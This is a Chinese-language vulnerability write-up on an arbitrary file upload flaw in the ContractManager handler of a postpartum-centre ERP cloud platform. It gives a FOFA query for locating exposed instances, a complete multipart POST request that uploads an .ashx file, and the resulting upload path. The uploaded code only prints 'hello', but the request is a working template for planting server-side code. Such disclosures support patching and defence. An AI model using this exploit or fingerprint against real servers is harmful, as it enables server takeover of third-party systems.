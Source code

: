 # 月子会所ERP管理云平台ContractManager任意文件上传漏洞

# <font style="color:#080808;background-color:#ffffff;">一、漏洞简介</font>
<font style="color:#080808;background-color:#ffffff;">月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，可上传任意文件，攻击者可利用该漏洞获取服务器控制权。</font>

# <font style="color:#080808;background-color:#ffffff;">二、影响版本</font>
+ <font style="color:#080808;background-color:#ffffff;">月子会所ERP管理云平台</font>

# <font style="color:#080808;background-color:#ffffff;">三、资产测绘</font>
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/7hQQxOj6AIZDFquH/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-561053.png)

# <font style="color:#080808;background-color:#ffffff;">四、漏洞复现</font> 
```plain
POST /Page/ContractManager/ashx/Handler.ashx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 497
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

![1695622326192-8b9da39e-f216-43be-8d60-6a6b927234c0.png](./img/7hQQxOj6AIZDFquH/1695622326192-8b9da39e-f216-43be-8d60-6a6b927234c0-780900.png)

根据回显拼接上传文件位置

```plain
/UploadBaseFolder/Contact/1_2309251411214592641.ashx
```

![1695622362200-90a32f07-4c87-41bf-aee8-0885c6181e44.png](./img/7hQQxOj6AIZDFquH/1695622362200-90a32f07-4c87-41bf-aee8-0885c6181e44-189522.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/etvvzb1rdaqrt08g>